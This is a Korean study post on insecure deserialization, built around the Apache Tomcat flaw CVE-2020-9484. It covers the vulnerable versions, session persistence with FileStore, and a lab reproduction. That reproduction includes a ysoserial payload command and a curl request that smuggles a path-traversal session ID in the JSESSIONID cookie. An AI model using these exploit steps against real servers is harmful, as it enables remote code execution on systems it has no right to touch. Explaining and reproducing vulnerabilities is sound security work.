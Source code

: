 ```yaml
---
title: "CVE-2020-9484 (Apache Tomcat Remote Code Execution Vulnerability)"
toc: true
toc_sticky: true
toc_label: "목차"
categories:
  - WEB
tags:
  - web
  - RCE
  - vulnerability
  - CVE
last_modified_at: 2020-06-17T16:51:00+09:00
---
```

**Insecure Deserialization (안전하지 않은 역직렬화)**

**OWASP TOP 10**에 등재된 **Deserialization** 공격에 대해 정리하려고 합니다.

이번에 발행된 **CVE-2020-9484**를 예를 들어서 포스팅을 작성하였습니다.

---

# 직렬화와 역직렬화

## 개요

- 직렬화 : 특정 Class의 현재 인스턴스 상태를 다른 서버로 전달 하기 위해 <br>Byte Code로 복사하는 작업, 직렬화(Serialization)

- 역직렬화 : 저장된 파일에서 Byte Code를 읽거나 전송된 스트림 데이터를 읽어 <br>특정 Class의 인스턴스 형태로 복원하는 것, 역직렬화 (Deserialization)

## Serialization / Deserialization의 제약사항

데이터 Deserialization 과정에서 원격코드 실행이나 권한 상승 취약점들이 발생할 수 있다.

1. 데이터를 처리하는 곳 모두 ClassPath안에 전달된 객체에 대한 Library 가지고 있어야함
2. 전송할 인스턴스는 Java.io.Serializable을 implement해야함 <br>(즉, 직렬화가 불가능한 인스턴스를 포함하면 안됨)
3. transient field 인스턴스는 정보가 전달 되지 않음
4. Serialization / Deserialization 는 기 생성된 인스턴스의 복사만 가능하여 <br>Constructor가 실행되지 않음

---

# CVE-2020-9484 <br> (Apache Tomcat Remote Code Execution Vulnerability)

## 영향받는 버전 및 요구사항

```
- Apache Tomcat 10.x < 10.0.0-M5
- Apache Tomcat 9.x < 9.0.35
- Apache Tomcat 8.x < 8.5.55
- Apache Tomcat 7.x < 7.0.104

- PersistentManger 활성화, FileStore 사용중
- Deserialization 공격 파일 업로드 가능, 업로드 경로 확인 가능
```

## 왜 세션인가?

Tomcat은 Session management 방법을 2가지 제공하고 있습니다.

- org.apache.catalina.session.StandardManager (default)

- org.apache.catalina.session.PersistentManager

StandarManager는 구동중에는 메모리에 저장하고 있다가 종료시 session을 <br>Serialized 된 데이터를 disk에 저장합니다 ( default로 SESSIONS.ser )

PersistentManager는 동일하나 메모리 관리를 위해 session이 일정 시간 동안 <br>사용 되지 않으면 데이터를 disk에 저장합니다.

여기서 2개 옵션을 사용 할 수 있는데 FileStore와 JDBCStore 입니다.

FileStore는 session을 disk에 저장하는데 sessionID를 파일이름으로 사용합니다.

JDBCStore는 DB에 데이터를 저장합니다.

## FileStore

따라서 FileStore를 사용하게 되면 아래 코드와 같이 directory + sessionID + '.session'인<br>파일에서 데이터를 불러오게 됩니다.

[FileStore Github code](https://github.com/dpzain/apache-tomcat-9.0.24/blob/b7b63b843c7978ee6733964b02f232563f9b427c/java/org/apache/catalina/session/FileStore.java)

```java
/**
     * Return a File object representing the pathname to our
     * session persistence file, if any.
     *
     * @param id The ID of the Session to be retrieved. This is
     *    used in the file naming.
     */
    private File file(String id) throws IOException {
        if (this.directory == null) {
            return null;
        }
        String filename = id + FILE_EXT;
        File file = new File(directory(), filename);
        return file;
    }
```

## context.xml in tomcat conf

context.xml에서 FileStore가 사용중인 directory를 확인합니다.

```xml
<Manager className="org.apache.catalina.session.PersistentManager">
    <Store className="org.apache.catalina.session.FileStore" directory="/tomcat/sessions/"/>
</Manager>
```

---

# 취약점 테스트

[masahiro331 Github](https://github.com/masahiro331/CVE-2020-9484.git)에 구성된 환경으로 테스트를 진행했습니다.

[ysoserial](https://github.com/frohoff/ysoserial)

<img src='{{ "/assets/images/web/web_cve_2020_9484_1.png" | absolute_url }}'>

공격을 위해 ysoserial에서 해당 서버 환경에 맞는 Serialized된 bytecode를 생성합니다.

```
$ java -jar ysoserial.jar Groovy1 'touch /tmp/rce' > groovy.session
```

<img src='{{ "/assets/images/web/web_cve_2020_9484_2.png" | absolute_url }}'>

서버 내 공격코드 파일 (groovy.session)의 위치를 확인합니다.

```
root@e340adc43b93:/usr/local/tomcat# ls
BUILDING.txt	 LICENSE  README.md	 RUNNING.txt  conf	      include  logs	       temp	webapps.dist
CONTRIBUTING.md  NOTICE   RELEASE-NOTES  bin	      groovy.session  lib      native-jni-lib  webapps	work
```

---

**공격 코드 실행**

```
$ curl 'http://127.0.0.1:8080/index.jsp' -H 'Cookie: JSESSIONID=../../usr/local/tomcat/groovy'
```

<img src='{{ "/assets/images/web/web_cve_2020_9484_3.png" | absolute_url }}'>

---

# 참고자료

0. BLOG

<https://www.redtimmy.com/java-hacking/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/>

<https://github.com/masahiro331/CVE-2020-9484>

<https://github.com/frohoff/ysoserial>